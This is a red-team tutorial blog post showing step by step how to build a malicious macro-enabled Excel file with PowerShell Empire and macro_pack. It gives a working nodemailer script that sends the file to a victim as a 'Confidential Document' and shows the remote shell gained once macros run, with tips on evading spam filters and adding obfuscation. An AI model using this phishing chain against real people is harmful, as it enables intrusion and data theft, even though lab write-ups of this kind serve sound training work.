 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2021-11-04
categories: [malware, phishing, nodejs, gmail, starkiller, macros]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![[assets\img\redteam1\1.png]]

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![[2.png]]

- Create Stager 

```
windows/macro
```

![[3.png]]

- Copy the Macro 

![[4.png]]

- Start C# Empire Server

![[5.png]]

## Windows

- paste the macro stager to the windows vm
- macro.vba

![[6.png]]

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![[7.png]]

- the new obfuscated vba

![[8.png]]

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![[9.png]]

![[10.png]]

![[11.png]]

- Replace the empty function with the obs_macro's contents

![[12.png]]

- Save it as xlsm

![[13.png]]


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![[14.png]]

## Victims Emails

![[15.png]]

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![[16.png]]

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![[17.png]]

- Enable Content

![[18.png]]

- Run Macro

![[19.png]]

## Agent Created (Kali)

![[20.png]]

- File Browser

![[21.png]]

- Interact /  Shell Command

![[22.png]]

## Virus Total

![[23.png]]

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***





